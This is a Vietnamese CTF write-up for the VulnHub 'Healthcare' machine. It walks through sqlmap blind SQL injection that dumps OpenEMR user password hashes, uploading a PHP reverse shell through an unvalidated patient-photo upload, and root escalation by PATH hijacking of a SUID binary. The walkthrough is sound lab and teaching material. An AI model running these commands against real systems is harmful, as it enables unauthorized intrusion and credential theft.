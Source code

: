 ```yaml
---
title: Healthcare Writeup - VulnHub
date: "2023-07-28 01:11:07"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - hacking

pin: true
---
```


Download [Healthcare VulnHub](https://www.vulnhub.com/entry/healthcare-1,522/).

## Enumeration

![Scan Ports](/posts/Healthcare/scan-ports.PNG)
_Scan Ports and Services_

```shell
gobuster dir -u http://10.0.2.9/ -w /usr/share/wordlists/Seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 30
```

![Gobuster](/posts/Healthcare/gobuster.png)
_Directory fuzzing_

![Openemr login page](/posts/Healthcare/openemr-login.PNG)
_Openemr login page_

## Exploitation

Đã biết ứng dụng đang chạy Openemr - một phần mềm mã nguồn mở, quản lý hành nghề y tế gì đó. Đặc biệt hơn, Openemr v4.1.0 chứa lỗ hổng unauthenticated blind SQL injection, có mã [CVE-2012-2115](https://www.cvedetails.com/cve/CVE-2012-2115/). Sau khi nhấn login, thông tin sẽ được xác thực qua `validateUser.php`. Nếu user tồn tại thì truy vấn sẽ luôn trả về ít nhất 1 hàng. Đồng nghĩa với việc ta có thể chèn payload SQL injection tại đây và thực hiện `Blind SQL Injection`.

Dùng `sqlmap` để khai thác:

```shell
┌──(kali㉿kali)-[~]
└─$ sqlmap -u '10.0.2.9/openemr/interface/login/validateUser.php?u=1' -D openemr -T users -C username,password --dump --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.6#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


.................

Database: openemr
Table: users
[2 entries]
+----------+----------------------------------------------------+
| username | password                                           |
+----------+----------------------------------------------------+
| admin    | 2de89a0a37f4a62dc4fa04f2637efcbba098ab44           |
| medical  | ab24aed5a7c4ad45615cd7e0da816eea39e4895d (medical) |
+----------+----------------------------------------------------+

```

Dump được 2 entries như trên, do tools đã crackhash được pasword của user `medical` nên ta dùng tài khoản này để login vô openemr luôn.

![Openemr Interface](/posts/Healthcare/openemr-interface.PNG)
_Giao diện sau khi login Openemr_

## Remote Code Execution

Sau khi đã đặt chân vào trang quản trị của Openemr v4.1.0, chúng ta có thể khai thác vuln mới có mã [CVE-2011-5161](https://www.cvedetails.com/cve/CVE-2011-5161/), cho phép người dùng upload file bất kì và không có bất cứ validation nào. Điều này giúp chúng ta dễ dàng upload và chạy reverse shell.

Tìm thủ công nơi có thể upload file, khả năng nhất là nơi update thông tin của bệnh nhân/khách hàng. Tiến hành truy cập đến `Patient/Client`>`New/Search`.

![Create New Patient](/posts/Healthcare/create-new-patient.PNG)
_Tạo mới 1 Patient_

Sau khi tạo xong, search và click vào Patient vừa tạo. Sau đó di chuyển tới `Documents` > `Patient Information` > `Patient Photograph`

![Patient A](/posts/Healthcare/a.PNG)

![Upload Page](/posts/Healthcare/upload-page.PNG)

Yah chính nó! Upload reverse shell php lên, chạy file và tạo 1 port listener tại máy local:

![Upload Revshell](/posts/Healthcare/upload-revshell.PNG)

![RCE](/posts/Healthcare/rce.PNG)
_RCE thành công!_

## Privilege Escalation

```shell
find / -perm -u=s 2>/dev/null
```

```
...
...
/usr/bin/healthcheck
...
...
```

Tiến hành tìm kiếm file SUID thì phát hiện file nhị phân trông lạ lạ này. Kiểm tra tệp này 1 chút:

```shell
sh-4.1$ ls -la /usr/bin/healthcheck
-rwsr-sr-x 1 root root 5813 Jul 29  2020 /usr/bin/healthcheck
```

File nhị phân này chạy dưới quyền root. Tất cả chỉ là thực hiện kiểm tra, Scan hệ thống, ổ đĩa,...

```shell
sh-4.1$ strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```

Hơn nữa, họ không chỉ định đường dẫn tuyệt đối cho các câu lệnh trong này => Ta có thể set PATH cho directory hiện tại và tạo file thực thi để spawn shell đồng thời trùng với 1 command nằm trong `healthcheck`. Thay vì chạy file bin trong PATH mặc định thì câu lệnh đó được chạy trong môi trường mà ta set cho PATH, tức file spawn shell của ta sẽ được gọi.

Trong file `healthcheck` có 1 vài câu lệnh, ta có thể chọn 1 lệnh bất kì trong số đó.

```shell
sh-4.1$ cd /tmp
sh-4.1$ export PATH=$(pwd):$PATH
sh-4.1$ echo "/bin/bash" > clear
```

```shell
sh-4.1$ healthcheck
TERM environment variable not set.
System Health Check

Scanning System
eth2      Link encap:Ethernet  HWaddr 08:00:27:54:37:D4
          inet addr:10.0.2.9  Bcast:10.0.2.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fe54:37d4/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1481565 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1576879 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:219434428 (209.2 MiB)  TX bytes:1884801187 (1.7 GiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:160 errors:0 dropped:0 overruns:0 frame:0
          TX packets:160 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:17440 (17.0 KiB)  TX bytes:17440 (17.0 KiB)


id
uid=0(root) gid=0(root) groups=0(root),416(apache)
```

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
[root@localhost tmp]# cd /
[root@localhost root]# ls
Desktop/    drakx/        healthcheck.c  sudo.rpm
Documents/  healthcheck*  root.txt       tmp/
[root@localhost root]# cat root.txt
Flag day ne: QnJlYWtUZWFtX0ZsYWdfWE5YWC5DT01fQWhpaGk=
[root@localhost root]# echo "QnJlYWtUZWFtX0ZsYWdfWE5YWC5DT01fQWhpaGk="| base64 -d
BreakTeam_Flag_XNXX.COM_Ahihi
```
